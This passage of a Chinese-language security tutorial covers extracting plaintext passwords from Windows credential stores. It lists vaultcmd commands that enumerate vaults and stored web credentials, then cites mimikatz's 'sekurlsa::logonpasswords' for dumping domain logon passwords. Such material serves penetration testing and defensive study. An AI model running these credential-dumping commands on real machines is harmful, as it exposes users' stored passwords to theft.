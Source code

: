 ## 0x04 导出Credentials中的明文口令
---

### 1、获得系统凭据的基本信息

工具： vaultcmd(windows系统自带)

常用命令：

列出保管库(vault)列表：

```
vaultcmd /list
```

**注：**

不同类型的凭据保存在不同的保管库(vault)下

列出保管库(vault)概要，凭据名称和GUID：

```
vaultcmd /listschema
```

**注：**

GUID对应路径`%localappdata%/Microsoft\Vault\{GUID}`下的文件，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-12-21/2-6.png)

列出名为"Web Credentials"的保管库(vault)下的所有凭据信息：

```
vaultcmd /listcreds:"Web Credentials" 
```

**注：**

如果是中文操作系统，可将名称替换为对应的GUID，命令如下

列出GUID为`{4BF4C442-9B8A-41A0-B380-DD4A704DDB28}`的保管库(vault)下的所有凭据：

```
vaultcmd /listcreds:{4BF4C442-9B8A-41A0-B380-DD4A704DDB28}
```

列出GUID为`{4BF4C442-9B8A-41A0-B380-DD4A704DDB28}`的保管库(vault)的属性，包括文件位置、包含的凭据数量、保护方法：

```
vaultcmd /listproperties:{4BF4C442-9B8A-41A0-B380-DD4A704DDB28}
```

### 2、获得Domain Credentials的明文口令

工具： mimikatz

参数：

```
sekurlsa::logonpasswords
```
